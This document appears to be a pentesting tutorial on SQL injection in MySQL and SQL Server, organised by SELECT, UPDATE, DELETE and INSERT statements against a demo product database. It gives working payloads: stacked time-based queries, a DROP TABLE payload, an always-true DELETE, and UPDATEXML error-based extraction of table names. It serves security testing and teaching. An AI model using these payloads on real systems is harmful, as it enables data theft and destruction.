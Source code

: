 SQL Injection in MySQL and SQL Server
============

This article will discuss some techniques to exploit SQL Injection in MySQL and SQL Server. For a better understanding what happened behind the back-end, I think we should demonstrate on the console. By this way, we can entirely understand the whole query and where's the injection point as well as this method will be more simple and straightforward.

In this section, we will discuss about exploiting SQL not by its type, but by its keywords. Here I choose 4 main keywords: SELECT, INSERT, UPDATE and DELETE. Without further ado, let's dive into it.

I created a simple database with 2 tables. Here's the SQL script
```sql
-- Create Category Table
Drop TABLE IF EXISTS Category;
CREATE TABLE Category (
    category_id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL
);

-- Create Product Table
Drop TABLE IF EXISTS Product;
CREATE TABLE Product (
    product_id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL,
    description TEXT,
    price DECIMAL(10, 2) NOT NULL,
    stock_quantity INT NOT NULL,
    category_id INT,
    FOREIGN KEY (category_id) REFERENCES Category(category_id)
);

-- Insert example values into Category Table
INSERT INTO Category (name) VALUES
('Men'),
('Women');

-- Insert example values into Product Table
INSERT INTO Product (name, description, price, stock_quantity, category_id) VALUES
('Men\'s T-shirt', 'Cotton T-shirt with a round neck', 20.00, 50, 1),
('Men\'s Jeans', 'Blue denim jeans with a slim fit', 40.00, 30, 1),
('Men\'s Sunglasses', 'Polarized sunglasses with UV protection', 15.00, 20, 1),
('Men\'s Sneakers', 'Comfortable running sneakers', 60.00, 25, 1),
('Men\'s Jacket', 'Water-resistant windbreaker jacket', 80.00, 10, 1),
('Men\'s Hoodie', 'Fleece hoodie with adjustable drawstring', 35.00, 20, 1),
('Men\'s Watch', 'Stainless steel wristwatch with leather strap', 150.00, 10, 1),
('Men\'s Sandals', 'Casual sandals with adjustable straps', 30.00, 22, 1),
('Women\'s T-shirt', 'Cotton T-shirt with a round neck', 20.00, 50, 2),
('Women\'s Jeans', 'Blue denim jeans with a slim fit', 40.00, 30, 2),
('Women\'s Sunglasses', 'Polarized sunglasses with UV protection', 15.00, 20, 2),
('Women\'s Sneakers', 'Comfortable running sneakers', 60.00, 25, 2),
('Women\'s Jacket', 'Water-resistant windbreaker jacket', 80.00, 10, 2),
('Women\'s Hoodie', 'Fleece hoodie with adjustable drawstring', 35.00, 20, 2),
('Women\'s Watch', 'Stainless steel wristwatch with leather strap', 150.00, 10, 2),
('Women\'s Sandals', 'Casual sandals with adjustable straps', 30.00, 22, 2),
('Women\'s Summer Dress', 'Lightweight summer dress with floral print', 45.00, 15, 2),
('Women\'s Leather Bag', 'Genuine leather shoulder bag', 120.00, 5, 2);

```
SELECT STATEMENT
---
Let's start with the SELECT keywords. When we test for SQL Injection, i think it's important to guess how the SQL query looks like, this is also the reason why i demonstrate directly in the console. For MySQL i use MySQL Workbench and for SQL Server I use SQL Server Management Studio. Let imagine there's search function and it will match our input with the product name:
```sql
SELECT * FROM Product WHERE price between ? and ? LIMIT $limit
```
We can easily see that the `$limit` parameter is the vulnerable part. In this case, we can simply create a payload to test for SQL injection. Payload use `1; SELECT SLEEP(1) --`. The reason I use `SLEEP()` is because I also want to test for blind SQL Injection. We will rely on the response time from the server to see if it's vulnerable to SQL Injection. This is the full query after injection: 

```sql
SELECT * FROM Product WHERE price between 10 and 20 LIMIT 1; SELECT SLEEP(2); --
```
When we run this query in the console, it will return the result of the first query and then sleep for 2 seconds. For further exploitation, we can inject malicious payloads which can destroy the entire database such as: `1; DROP TABLE Product; --` to remove the Product table.

To make the game harder, let's change the injection point. As usual, it will be easier for us if the injection point occurs behind the *WHERE* clause. What would it be if the injection point is placed before the FROM keyword, like this query:
```sql
SELECT $table FROM Product WHERE price between ? and ? LIMIT ?
```

We can imagine this query is used to return the result of a specific column of a table. To cut the story short, what we need to do is create a valid query and then stop that query by adding `;` to start our payload. Normally, we will try `* FROM Product; SELECT SLEEP(3); -- `. However, in real-world scenario,  we don't know the table name, so the previous payload is not possible in this case. We need to find another to make that query valid. The answer is quite simple, we can use `SELECT SLEEP()` and our payload will become something like this:
```sql
SELECT SLEEP(2); SELECT * FROM information_schema.tables; -- FROM Product WHERE price between 10 and 20 LIMIT 2
```
This is just a payload for demonstration. In reality, we can do a lot more because we have full control to manipulate the query.

With SQL Server, there will be some differences, let's find out what they are. In SQL Server, it doesn't support `limit`, instead, it will use `SELECT TOP` to return the number of records we want. Therefore, the testing query will look like this 
```sql
SELECT TOP $limit FROM Product WHERE price between ? and ?
```
Note that we cannot supply an expression  to `$limit`, it only accept a number. However, it's not very hard to have a valid query in this case. In most databases, except OracleDB, there's a database called `information_schema` which provides metadata of other databases. With this feature, it's not very hard for us to have a valid query by using this payload:
```sql
SELECT TOP 1 * FROM information_schema.tables; waitfor delay '00:00:02'; -- WHERE price between 10 and 20
```
We keep the same technique to exploit SQL injection: Try to have a valid query first, terminate it and inject our payload.

UPDATE STATEMENT
-------------
Next, we will explore the UPDATE statement. In most scenario, we can only imagine that the value we update will be after the `SET`  keyword or `WHERE` clause. Let's take this 2 queries as examples:
```sql
UPDATE Product SET price= $user_input WHERE product_id=?
UPDATE Product SET price= ? WHERE product_id=$user_input

```
As discussed above, our approach is to first terminate the original query and then start a new query. Although 2 queries have different injection points, the method is identical. We can try `1; select sleep(10); --` for MySQL and `1; waitfor delay '00:00:02'` for SQL Server. In my opinion, time-based injection payload is ideal for testing as it can work with blind SQL injection. Even the query can be more complicated in practice, the method remains unchanged. That's why i just demonstrate a simple case. The important thing is that we need to understand how it is injected and will go further by guessing how the actual query looks like.

DELETE STATEMENT
----------------
`Delete` statement is a special case for us while testing. Not because it's difficult, but rather because it will have a catastrophic impact to the database if we don't do it properly. For example, I have this query:
```sql
DELETE FROM Product WHERE product_id=$user_input
```
As normal, if we try this payload `1 or 1=1; -- `, then all the records of `Product` table will be deleted. Because we provide an ***always true*** comparison after WHERE `clause`, which means that the query will become `DELETE FROM Product`. However, this is not what we want. Instead, we should choose a safer way to test in this case, and the method is just like we discussed, using **time-based** injection. We can use these payloads for MySQL and SQL Server respectively:
```sql
DELETE FROM Product WHERE product_id=1; SELECT SLEEP(2); -- 
```
```sql
DELETE FROM Product WHERE product_id=1; waitfor delay '00:00:02'
```
INSERT STATEMENT
----
Finally, `INSERT` statement will be the last we will discuss in this article, which i think is also the most difficult one. At first, we will explore MySQL. I have this query:
```sql
INSERT INTO Product(name, description, price, stock_quantity, category_id) VALUES 
("$user_input", ?, ?, ?, ?)
```
The problem with `INSERT` statement is that, we don't know exactly how many columns will be added, so we need to find a way to first identify if SQL injection occurs. `" or (SELECT SLEEP(2)) or '`, the whole query will look like this:
```sql
INSERT INTO Product(name, description, price, stock_quantity, category_id) VALUES 
("" or (SELECT SLEEP(2)) or "", RANDOM, RANDOM, RANDOM, RANDOM)
```
MySQL support expression for inserting a value. To explain, I try to compare an empty string with a subquery (which is also the payload to know if it's vulnerable to SQL injection) and other comparison to close the double quote `"` in order to make the query valid. No matter what values are inserted behind that, it will first sleep for 2  seconds, which is too enough to be a good indication for us. I read a blog from *Osanda Malith Jayathissa* on [this link](https://www.exploit-db.com/docs/33253). In this blog, he provided a method to extract data by take advantage of the `updatexml()` function, this function has its own features but it will return error about the metadata of database, which is valueable for us. I will explain more detailed later. To extract data, we will replace the subquery with a new one, `'' or
UPDATEXML(0, CONCAT(":", (SELECT table_name from information_schema.tables WHERE table_schema=database() limit 0,1)),0) or ''`
Full query:
```sql
INSERT INTO Product(name, description, price, stock_quantity, category_id) VALUES ('' or
UPDATEXML(0, CONCAT(":", (SELECT table_name from information_schema.tables WHERE table_schema=database() limit 0,1)),0) or '', '', '', '', ''); 
```
Once we run the query in the console, it will return: `Error Code: 1105. XPATH syntax error: ':category'
`, while means that there's a table name `category` in the database. With this technique, we can dive deeper to enumerate other tables as well as their columns. 

On the other hand, it's not possible to use this technique with SQL Server. Alternatively, there's another technique can  be used for both MySQL and SQL Server. This can be done by injecting *null* value to other columns. For example, `',null,null,null) --`, try until we successfully create an instance. that time we can terminate original query and inject our payload.  This is how the full query will look like:
```sql
INSERT INTO Product(name, description, price, stock_quantity, category_id) VALUES ('',null, null. null); waitfor delay '00:00:02'-- ,"description",'price', 1, 1)
```
Sometimes there are some fields require `not null` values. In those cases, we need to modify the value we inserted to make a valid query.+
```sql
INSERT INTO Product(name, description, price, stock_quantity, category_id) VALUES ('',1, null. 1); waitfor delay '00:00:02'-- ,"description",'price', 1, 1)
```
This technique requires trying multiple times until we successfully identify how many rows in that table. 

----------------

This is the end of this article, I've just presented some techniques which can help pentester test for SQL injection. One more time, I want to emphasize the importance of understanding the root cause of SQL injection as well as guessing the query. Happy hacking!!!
